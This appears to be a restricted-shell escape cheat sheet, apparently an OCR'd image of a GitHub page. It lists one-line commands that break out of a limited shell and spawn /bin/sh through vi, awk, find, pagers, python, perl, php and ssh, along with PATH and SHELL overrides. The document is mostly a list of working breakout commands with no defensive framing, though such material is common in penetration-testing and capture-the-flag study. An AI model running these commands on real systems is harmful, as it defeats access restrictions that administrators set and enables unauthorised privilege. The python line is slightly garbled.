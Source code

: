 ### check for writeable environment variables - if the PATH is writeable, set it to /bin/sh or similar
```
env
export -p
```

### if / is allowed in commands
```
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
```

### change the shell
```
chsh
```

### copy into existing PATH
```
cp /bin/sh <path/to/directory>; sh
```

### more, less, man, ftp,gdb
```
!/bin/sh
```

### vi, vim
```
:!/bin/sh
```

### awk
```
awk 'BEGIN {system("/bin/sh")}'
```

### find
```
find / -name <string> -exec /bin/sh ;
```

### tee
```
echo "<command>" | tee <file>.sh
```

### python
```
python -c 'import os; os.system("/bin/bash")
```

### perl
```
perl -e 'exec "/bin/sh";'
```

### php
```
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

### ssh
```
ssh <user>@<rhost> -t "/bin/sh"
ssh <user>@<rhost> -t "bash --noprofile"
```

